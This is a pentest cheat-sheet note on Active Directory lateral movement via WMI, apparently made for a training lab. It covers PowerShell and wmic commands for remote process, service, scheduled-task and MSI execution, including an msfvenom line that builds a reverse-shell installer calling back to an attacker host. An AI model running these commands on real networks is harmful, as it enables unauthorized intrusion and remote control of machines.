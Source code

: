 # AD Lateral Movement - WMI

Windows Management Instrumentation (WMI) is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. Not to be confused with `wmic` see [[WMI-Commands]] for more uses of WMI's Command Line utility. Regardless WMI allows administrators to perform standard management tasks, therefore a utility to lateral movement. Windows Management Instrumentation ([WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)), which is an object-oriented feature that facilitates task automation. WMI is capable of creating processes via the Create method from the `Win32_Process` class and then run a system service in [session 0](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361). It communicates through [Remote Procedure Calls](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc738291(v=ws.10)?redirectedfrom=MSDN) (RPC) over port 135. [WMIC is deprecated as of Windows 10](https://learn.microsoft.com/en-us/windows/whats-new/deprecated-features), but is superseded by [Windows PowerShell for WMI](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi).

Is not restricted by UAC remote restrictions
```powershell
# Deprecated
#  As of Windows Vista, the WMI Provider host runs as a system service and therefore run in `session 0` to provide session isolation

wmic /node:$ipAddress /user:$user /password:$password process call create "cmd"
# PowerShell version 
# Create Credential Object
$username = '';
$password = '';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
# Pass credential object to Common Information Model (CIM) 
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName $ipAddress -Credential $credential -SessionOption $Options 
$command = 'cmd';
# Invoke   
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

## Connecting to WMI From Powershell

-   **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
-   **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

Create a PSCredential object 
```powershell
$username = 'Administrator';
$password = 'admin';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
Store sessions with `New-CimSessionOption` 
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName <computer-name> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

## Remote Process Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Remotely spawn a process from Powershell by sending a WMI request to the Win32_process class to spawn the process under the session we previously created 
```powershell
$Command = "powershell.exe ..." # Enter a command here
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -arguments @{ CommandLine = $Command }
```
Output of command and processs create will both be silent. Legacy system can use `wmic.exe`:
```powershell
wmic.exe /user:Administrator /password:admin /node:<target computer name> process call create "cmd.exe /c <whatever tool you have on the target to connect back!>"
```

## Remote Service Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Create a service with Powershell; Importantly `PathName` is your payload and the `ServiceType` completed below and is a `Win32OwnProcess` Starting a service in a new Process. The `Name` and `DisplayName` are just the naming of this services
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguements @{
Name = "";
DisplayName = "";
PathName = ""; 
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```
Use the service name to start like so:
```powershell
$Service = Get-CimInstance -CimSession $SEssion -ClassName Win32_SErvice -filter "Name LIKE '<service name>'" 

Invoke-CimMethod -InputObject $Service -MethodName StartService
# Stop and delte with the following:
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## Remote Scheduled Task Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Create and execute a scheduled task:
```powershell
# Payload must split into Command and Args
$Command = ".exe"
$Arg = "arguments go here"
# Create the Scheduled Task
$Action = New-ScheduledTaskAction -CimSessions $Session -Execute $Command -Argument $Args
# Register it
Register-ScheduledTask -CimSession $Session -Action -$Action -User "NT AUTHORITY\SYSTEM" -TaskName "Taskname"
# Then Start
Start-ScheduleTask -CimSession $Session -TaskName "Taskname"
# Unregister to delete
Register-ScheduledTask -CimSession $Session -TaskName "Taskname"
```

## Installing MSI Packages Through WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

MSI is file fpormat for installers, therefore copying a MSI package to a target system and using WMI to install it. With [[MSFVenom-Payloads]]:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attack_ip LPORT=$port -f msi > badinstall.msi
```

Inoke the `Win32_Product` class through WMI:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\$installer.msi"; Options = ""; AllUsers = $false}
```
Legacy system can use [[WMI-Commands]]:
```powershell
wmic /node:target_ip /user:$domain\$user product call install PackageLocation=C:\Window\$installer.msi
```


## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[Microsoft - WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)
[Microsoft - session 0](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361)
[Microsoft - Remote Procedure Calls](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc738291(v=ws.10)?redirectedfrom=MSDN)
[Microsoft  WMIC deprecation](https://learn.microsoft.com/en-us/windows/whats-new/deprecated-features)
[Microsoft - Windows PowerShell for WMI](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi).